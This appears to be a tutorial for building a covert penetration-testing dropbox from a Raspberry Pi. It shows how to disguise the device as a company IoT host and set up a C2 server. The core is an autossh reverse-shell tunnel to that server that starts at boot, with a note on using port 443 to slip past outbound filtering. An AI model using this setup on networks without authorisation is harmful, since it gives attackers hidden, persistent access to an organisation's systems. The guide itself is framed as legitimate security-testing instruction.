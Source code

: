 # How to create a simple Pentesting DropBox using a raspberry pi

Why should I use a Raspberry Pi? The main reason is for its small size. It’s possible to hide it in plain sight and easily disguise it as an IoT device on the network.

Another reason is that most companies’ firewalls will block unauthorized access to it. So if one can smuggle a small device onto its network, it’s possible to get a reverse shell and scan the network from somewhere else.
## How to get pass firewall?

The best possible solution is to get the DropBox inside the network to reach back to a C2 (command and control) server. And reach the DropBox from anywhere using the reverse shell through SSH, using the C2 as a passthrough tunnel.

Raspberry -> reverse SSH -> C2 Server <- SSH <- Attacker machine
> ADD a picture here explaining how is works.

## Kali installation 
### Image download and install
Kali can be installed right from the [Raspberry Pi Imager](https://www.raspberrypi.com/software/) or following the guide on [Kali](https://www.kali.org/docs/arm/raspberry-pi-4/) The Process is really easy.

After installing Kali on the Raspberry Pi, SSH into it. You can find its IP address using your router.
```bash
ssh kali@[kali-IP]
```
The default user and password are `kali:kali`

Update and upgrade 
```bash
sudo apt update && sudo apt full-upgrade
```

**After that, change the default password for the `Kali` user.**

### Minor modifications

The whole idea is to hide in plain sight, so some modifications must be made so the DropBox can disguise as an IoT device.

First, change the hostname in two locations: `/etc/hostname` and `/etc/hosts`. 
Here, anything is valid as long as it looks like it belongs to the company. If you can get the scheme of how the devices are named, it can be easily passed off as just another host.

>On `/etc/hostname`, choose the name you want.
>On `/etc/hosts`, use the same name on the line containing the loopback address (`127.0.1.1`).

After this step, the DropBox will mostly look like it’s just another host on the network. Of course, there are situations when the company adopts MAC-address filtering. And This can be a problem.

At this point, the basic configuration is done on the Raspberry Pi. But we will come back to it soon.

---
## C2 settings

A crucial part of this is the Command and Control server. It’s the middle-man in the communication. The DropBox will try to make contact with it, and when the connection is established, the reverse shell will be accessible.

For this, I decided to use a Ubuntu 22.04 LTS on [Linode](www.linode.com). It's just a basic shared CPU with privet IP.
### SSH configuration
On the file `/etc/ssh/sshd_config`, we have to change three lines:

```bash
AllowTcpForwarding yes
GatewayPorts yes
PasswordAuthentication yes
```
This will enable port forwarding and enable authentication using a password.

After changing the lines, just restart the SSH service.
```bash
sudo service ssh restart
```

### User
A new Ubuntu “linode” installation will have only the root user, so we’ll add a new user.
```bash
adduser [username]
```

After this, the **basic** configuration for the C2 will be ready.

> For a real engagement, it’s recommended to strengthen the security of the C2. **This configuration is just for demonstration.**
 
---

## Create the reverse shell tunnel

At this point, we go back to the Raspberry Pi, and the main idea now is to generate a pair of keys (public and private), so the DropBox can authenticate SSH into the C2 server without a password. For this, we will create an `SSH keypair`.
```bash
ssh-keygen
```
Just generate the keypair; there is no need for a password.

Copy the public key to the C2 server
```bash
ssh-copy-id [username]@[CnC-Server-IP]
```
Provide the password for the user.

After this, it’s not necessary to enter a password to connect to the server.
```bash
ssh [username]@[CnC-Server-IP]
```

### AutoSSH

Install `AutoSSH`. For more info about it see [SSH tunnelling for fun and profit: Autossh (everythingcli.org)](https://www.everythingcli.org/ssh-tunnelling-for-fun-and-profit-autossh/)

```bash
apt install autossh -y
```

The idea is to automate the SSH tunnel. So when the DropBox is turned on and is plugged into a network, it will automatically connect to the C2, and the reverse shell will be on.

After the installation is complete, we should create a service, so the autossh will start automatically. To create the service, first create the file `/etc/systemd/system/[Some_Cool_Service_Name].service` and add the following to it:
```bash
[Unit]
 Description=/etc/[Same_Cool_Sevice_Name] Compatibility
 ConditionPathExists=/etc/[Same_Cool_Sevice_Name]
[Service]
 Type=forking
 ExecStart=/etc/[Same_Cool_Sevice_Name] start
 TimeoutSec=0
 StandardOutput=tty
 RemainAfterExit=yes
 SysVStartPriority=99
[Install]
 WantedBy=multi-user.target
```

And then the next file `/etc/[Same_Cool_Sevice_Name]`. Add the following:
```bash
#!/bin/bash -e
autossh -M 0 -fN -o "PubkeyAuthentication=yes" -o "StrictHostKeyChecking=false" -o "PasswordAuthentication=no" -o "ServerAliveInterval 30" -o "ServerAliveCountMax 3" -R 6969:localhost:22 -i /home/kali/.ssh/id_rsa [kali]@[CnC-Server-IP] &
exit 0
```

- The `-M` is the monitoring port. autossh will send test data to check if it is still connected to the server. The autossh manual suggests using `ServerAliveInterval` and `ServerAliveCountMax` on recent versions of OpenSSH. But the monitoring port can be turned off using the value 0.
- The `-f` causes `autossh` to drop to the background before running `ssh`.
- The `-N` tag is for not executing a remote command. 
- Tag `-o` is to specify the options.
- The `-R` option is used to set the remote port. In this case, the Dropbox will be accessible on port 6969. If the organization has strict outbound filtering policies, a good option for this is port 443.
- The `-i` sets the location from where `ssh` will find the privet key.
- And the `&` is to prevent the DropBox to hang at boot.

Make `/etc/[Same_Cool_Sevice_Name]` executable:
```bash
chmod +x /etc/[Same_Cool_Sevice_Name]
```

Enable `[Same_Cool_Sevice_Name].service`

```bash
systemctl enable [Same_Cool_Sevice_Name]
systemctl start [Same_Cool_Sevice_Name].service
```

## Test connection

After plugging the DropBox into a test network, you can check the SSH connection by logging in first from the C2 server:

```bash
ssh kali@localhost -p 6969
```
Enter the password for the `kali` user. Note that the port must be the same one that was set on `autossh`.

Next, you can log in from any other place:

```bash
ssh kali@[CnC-Server-IP] -p 6969
```
